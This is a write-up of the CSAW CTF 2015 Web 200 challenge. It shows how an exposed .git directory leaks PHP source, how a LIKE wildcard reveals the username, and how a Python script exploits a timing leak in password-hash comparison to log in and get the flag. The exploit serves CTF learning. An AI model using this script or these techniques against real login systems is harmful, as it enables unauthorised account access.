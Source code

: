 ```yaml
---
layout: post
title: "CSAW CTF 2015 - Web 200 Writeup"
date: 2015-09-21 17:01
comments: true
categories: 
- csaw2015
- ctf
- writeup
---
```

<img src="{{root_url}}/images/headers/csaw_200.png"/>

Web 200 was a fun challenge that required us to chain together a few basic concepts to get the flag. When navigating to the URL given, we see that the challenge is based on a "Lawn Care Simulator 2015".
<!--more-->
<img src="{{root_url}}/images/blog/csaw2015/lawn_care.png">

We can immediately see there's a sign in form, which might prove useful later. But before we get too far into that, let's view the page source. Opening up the source, we see the following javascript snippet:

``` javascript
function init(){
            document.getElementById('login_form').onsubmit = function() {
                var pass_field = document.getElementById('password'); 
                pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
        };
        $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
        initGrass();
}
```
You'll notice that there's an ajax call being made to a ```.git``` directory. If this is a full Git repo, we should be able to clone it:

``` bash
jordan@temp:~$ git clone http://54.175.3.248:8089/.git web200
jordan@temp:~$ ls web200
___HINT___  jobs.html  premium.php  validate_pass.php
index.html  js         sign_up.php
```
*Nice!* Now we can dive into the PHP. The ```__HINT__``` didn't prove to useful to me, but maybe I just didn't *get* it. Let's get started by looking at the relevant parts of ```premium.php```.

``` php
<?php
    require_once 'validate_pass.php';
    require_once 'flag.php';
    if (isset($_POST['password']) && isset($_POST['username'])) {
        $auth = validate($_POST['username'], $_POST['password']);
        if ($auth){
            echo "<h1>" . $flag . "</h1>";
        }
        else {
            echo "<h1>Not Authorized</h1>";
        }
    }
    else {
        echo "<h1>You must supply a username and password</h1>";
    }
?>
```
It looks like our flag is found in ```flag.php```. Unfortunately, we don't have that file, but it looks like ```$flag``` is printed if we authenticate correctly.

The authentication is handled by the ```validate(username, password)``` function in ```validate_pass.php```. Let's see what it looks like:

``` php
<?php
    <snip>
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];

    if (strlen($pass) != strlen($hash))
        return False;

    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
    <snip>
?>
```
This function gets the password hash from the given username and then compares it character by character with the hash provided. Keep in mind, our password was hashed in Javascript in the snippet shown above.

We'll get back to the password comparison later. First, how do we get the username? We have one more file, ```sign_up.php``` that might help. Let's take a look:

``` php
<?php
    <snip>
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
    <snip>
?>
```
This function tries to look up the username given and, if it exists, will tell us the username isn't available. We could try guessing (I did), but that doesn't help. Let's look more closely at the code.

The SQL statement is done via a ```LIKE``` condition. This allows us to use the ```%``` character as a wildcard. So, by trying the username ```%```, we should get the username from the database.

<img src="{{root_url}}/images/blog/csaw2015/username.png">

Awesome - our username is ```~~FLAG~~```. Now we need to find the password.

Going back to the code given in ```validate_pass.php```, we see the following comparison

``` php
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
```
This snippet checks our hash against the one pulled from the databse. It does this by checking each character. If the character is wrong, it returns false immediately. However, look at what happens if the character is right. It does a ```usleep(300000)```, which is .3 seconds. This means that, if we check every character, one will take longer. This is a **timing attack**.

I wrote a quick script to exploit this. Here is the final (not very good) code I wound up using:

``` text
import time
import requests

data = {
	"username" : "~~FLAG~~",
	"password" : ""
}

url = "http://54.175.3.248:8089/premium.php"

password = ['a']*32 

def send_request(password):
	data["password"] = password
	start = time.time()
	requests.post(url, data=data)
	end = time.time()
	return end - start	

hex = "0123456789abcdef"

for i in range(32):
	max_time = 0
	char = ""
	index = 0
	for j in hex:
		temp_pass = password
		temp_pass[i] = j
		request_time = send_request("".join(temp_pass))
		if request_time >= max_time:
			index = i
			max_time = request_time
			char = j
	password[index] = char	
	print "".join(password)
```
This basically brute forces the password by checking each valid hex character to see which takes the longest amount of time. It does this for each character in the hash. Running the code produces the following output:

``` text
6aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
66aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
667aaaaaaaaaaaaaaaaaaaaaaaaaaaaa
667eaaaaaaaaaaaaaaaaaaaaaaaaaaaa
667e2aaaaaaaaaaaaaaaaaaaaaaaaaaa
667e21aaaaaaaaaaaaaaaaaaaaaaaaaa
667e217aaaaaaaaaaaaaaaaaaaaaaaaa
667e2176aaaaaaaaaaaaaaaaaaaaaaaa
667e21766aaaaaaaaaaaaaaaaaaaaaaa
667e217666aaaaaaaaaaaaaaaaaaaaaa
667e217666aaaaaaaaaaaaaaaaaaaaaa
667e217666a1aaaaaaaaaaaaaaaaaaaa
667e217666a13aaaaaaaaaaaaaaaaaaa
667e217666a13daaaaaaaaaaaaaaaaaa
667e217666a13d3aaaaaaaaaaaaaaaaa
667e217666a13d39aaaaaaaaaaaaaaaa
667e217666a13d39aaaaaaaaaaaaaaaa
667e217666a13d39a0aaaaaaaaaaaaaa
667e217666a13d39a02aaaaaaaaaaaaa
667e217666a13d39a023aaaaaaaaaaaa
667e217666a13d39a0239aaaaaaaaaaa
667e217666a13d39a02399aaaaaaaaaa
667e217666a13d39a023995aaaaaaaaa
667e217666a13d39a0239951aaaaaaaa
667e217666a13d39a0239951eaaaaaaa
667e217666a13d39a0239951efaaaaaa
667e217666a13d39a0239951efeaaaaa
667e217666a13d39a0239951efe2aaaa
667e217666a13d39a0239951efe2daaa
667e217666a13d39a0239951efe2deaa
667e217666a13d39a0239951efe2de4a
667e217666a13d39a0239951efe2de48
```
Now, all that's left is to login and get the flag. To bypass the javascript hashing, I just used the dev console (you could also do this in Python!):

``` text
$.post('premium.php', {"username": "~~FLAG~~", "password" : "667e217666a13d39a0239951efe2de48"}).success(function(data){console.log(data)})
<head>
    <title>Lawn Care Simulator 2015</title>
    <script src="//code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script> 
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<h1>flag{gr0wth__h4ck!nG!1!1!</h1></body>
</html>
```
And there we have the flag: ```flag{gr0wth__h4ck!nG!1!1!}```

-Jordan ([@jw_sec](https://twitter.com/jw_sec))
